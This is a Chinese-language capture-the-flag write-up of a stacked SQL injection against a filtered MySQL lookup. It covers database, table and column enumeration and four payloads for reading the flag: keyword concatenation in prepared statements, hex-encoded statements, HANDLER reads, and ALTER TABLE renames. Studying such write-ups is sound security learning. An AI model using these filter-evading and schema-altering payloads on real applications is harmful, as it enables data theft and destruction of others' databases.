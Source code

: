 输入`1\`
回显：![[Pasted image 20250205231123.png]]

尝试`1' or true #`
![[Pasted image 20250205231210.png]]
几乎可以确定**闭合符是单引号**
开始联合注入
然后就发现![[Pasted image 20250205231300.png]]
被禁光光了
只能使用**堆叠注入**先show下看看了
`1';show databases;#`
回显：
![[Pasted image 20250205231501.png]]
很多库，再查查表`1';show tables;#`
回显：
![[Pasted image 20250205231613.png]]
有两个表，把他们的字段都查出来看看
words：`1'; show columns from words;#`
![[Pasted image 20250205232011.png]]
有两个字段，id和data

1919810931114514：
```
1'; show columns from `1919810931114514`;#
```
![[Pasted image 20250205232324.png]]
有一个字段flag

### 方法一：预编译——拼接法
```
1';SeT@a=concat('sele','ct flag from `1919810931114514`;');prepare b from @a;execute b;#
```

### 方法二：预编译——编码法
```
将select * from `1919810931114514`进行16进制编码
```

```
1';Set @jie = 0x73656c656374202a2066726f6d20603139313938313039333131313435313460;PREPARE an from @jie;EXECUTE an;#
```

### 方法三：handler语法
```
1';handler `1919810931114514` open;handler `1919810931114514` read next;#
```

### 方法四：修改表名、字段名
输入1后，默认会显示id为1的数据，可以猜测默认显示的是words表的数据，查看words表结构第一个字段名为`id`我们把words表随便改成words1，然后把1919810931114514表改成words，再把列名flag改成id，就可以达到直接输出flag字段的值的效果
```
1'; alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#
```
然后通过`1' or 1 = 1 #`，成功获取到flag

### 知识详解
#### 1.预编译
预编译相当于定一个语句相同，参数不同的Mysql模板，我们可以通过预编译的方式，绕过特定的字符过滤
```
PREPARE 名称 FROM Sql语句 ? ;
SET @x=xx;
EXECUTE 名称 USING @x;
```
举例：查询ID为1的用户：
```text
方法一：
SElECT * FROM t_user WHERE USER_ID = 1

方法二：
PREPARE jie FROM 'SElECT * FROM t_user WHERE USER_ID = 1';
EXECUTE jie;

方法三：
PREPARE jie FROM 'SELECT * FROM t_user WHERE USER_ID = ?';
SET @ID = 1;
EXECUTE jie USING @ID;

方法四：
SET @SQL='SElECT * FROM t_user WHERE USER_ID = 1';
PREPARE jie FROM @SQL;
EXECUTE jie;
```

#### 2. 更改表名
- 修改表名：`ALTER TABLE 旧表名 RENAME TO 新表名;`
- 修改字段：`ALTER TABLE 表名 CHANGE 旧字段名 新字段名 新数据类型;`

#### 3.handler
 handler不是通用的SQL语句，是Mysql特有的，可以逐行浏览某个表中的数据，格式：
```
打开表：
HANDLER 表名 OPEN ;

查看数据：
HANDLER 表名 READ next;

关闭表：
HANDLER 表名 READ CLOSE;
```
